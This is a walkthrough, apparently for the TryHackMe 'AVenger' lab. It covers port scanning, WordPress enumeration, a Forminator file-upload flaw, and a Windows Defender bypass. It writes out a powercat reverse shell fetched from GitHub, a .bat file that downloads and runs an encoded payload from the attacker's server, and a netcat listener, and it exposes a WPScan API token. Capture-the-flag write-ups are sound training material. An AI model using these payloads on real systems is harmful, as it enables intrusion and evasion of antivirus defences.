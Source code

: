 # AVenger



## Ports Scanning

For this machine we have to use a more stealth command due AV enable.

```bash
nmap -sC -sV --min-rate 1000 10.10.57.181 -oN port_scan.txt

Nmap scan report for 10.10.57.181
Host is up (0.042s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Index of /
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 5.5.5-10.4.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.28-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression, SupportsTransactions, IgnoreSpaceBeforeParenthesis, FoundRows, LongColumnFlag, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Nw207dp*|Vws\QbyX-w1
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=gift
| Not valid before: 2025-07-23T20:24:16
|_Not valid after:  2026-01-22T20:24:16
| rdp-ntlm-info: 
|   Target_Name: GIFT
|   NetBIOS_Domain_Name: GIFT
|   NetBIOS_Computer_Name: GIFT
|   DNS_Domain_Name: gift
|   DNS_Computer_Name: gift
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-24T20:25:04+00:00
|_ssl-date: 2025-07-24T20:25:13+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: localhost, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>



If we try to enter in the `gift/` directory, the domain will change in this:

<figure><img src="../../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

add this domain to `/etc/hosts` to view the site.

Try to enumerate with dir/file discovering.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://avenger.tryhackme/gift/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/admin                (Status: 302) [Size: 0] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-content           (Status: 301) [Size: 357] [--> http://avenger.tryhackme/gift/wp-content/]
/wp-admin             (Status: 301) [Size: 355] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-includes          (Status: 301) [Size: 358] [--> http://avenger.tryhackme/gift/wp-includes/]
```
{% endcode %}

### Wordpress Login Brute Forcing

These route bring you to `wp-login` portal.

<figure><img src="../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

Checking with wafw00f tool we can view that the site not has a WAF enabled.

```bash
wafw00f http://avenger.tryhackme/gift/wp-login.php

[*] Checking http://avenger.tryhackme/gift/wp-login.php
[+] Generic Detection results:
[-] No WAF detected by the generic detection # <--
[~] Number of requests: 7
```

Trying to enter with a admin:admin credentials we can notice that a message appair, tell us that the user admin exists.

<figure><img src="../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

So, knowing that the site not has WAF enabled and we have already know a user valid, we could do a brute force to guessing the password of admin user.

Nothing found :(

### WPScan

Try to run e WPScan to detect some vulnerability.

{% code overflow="wrap" %}
```bash
wpscan --url http://avenger.tryhackme/gift/ --api-token eVAkNLx5URNVNRP2xj1Uxon9CWFslz5Aas8bWb5jcO8 --random-user-agent -v
```
{% endcode %}

From this we can notice that the File Upload is managed by Forminator Plugin. That reading from readme of the plugin is not updated.

<figure><img src="../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

Searching online there are some vulnerabilities, but in particulary there is a Unauthentication File Upload and RCE.

{% embed url="https://www.exploit-db.com/exploits/51664" %}

If we upload a file in the form we can see this message.

<figure><img src="../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

This make us think that any files will upload a person will open it. So, we can upload a file to establish a revshell.

### Forminator Plugin RCE - AV Bypass

We can consider that the Windows Server machine has AV Windows Defender enabled.

And if the upload a simple file with a rev shell, this won't works.

Reading this article, we have a method to bypass the AV.

{% embed url="https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1" %}

{% content-ref url="../../../pt/executive-pt/post-exploitation/shells/shells-for-av-bypass.md" %}
[shells-for-av-bypass.md](../../../pt/executive-pt/post-exploitation/shells/shells-for-av-bypass.md)
{% endcontent-ref %}

Follow the above pages we obtained the reverse shell bypassing Windows Defender.

Create the encoded RevShell to host in a Http server.&#x20;

```bash
LHOST=10.23.52.142
LPORT=9009
rshell=shell.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```

```bash
python3 -m http.server 80
```

Now create the .bat file that will be open by a support user.

```bash
LHOST=10.23.52.142
LPORT_web=80
rshell=shell-9009.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${LPORT_web}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat 
```

Lastly start a listener

```bash
rlwrap nc -nlvp 9009
```

Upload the file and when it will be open we will obtain a RevShell.

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

Now we can print the user flag.

```powershell
more C:\Users\hugo\Desktop\user.txt
```



## Privilege Escalation

During the local windows enumeration, we noticed that the user hugo is in the Administrator group

```powershell
net localgroup administrators

Members
------------------------
Administrator
hugo
```



Bypass UAC to run program with Administrator privilege.

{% embed url="https://0xb0b.gitbook.io/writeups/tryhackme/2023/avenger" %}

{% embed url="https://momrulhasan.medium.com/avenger-tryhackme-walkthrough-bypassing-antivirus-and-gaining-full-system-access-01e705b4da92" %}

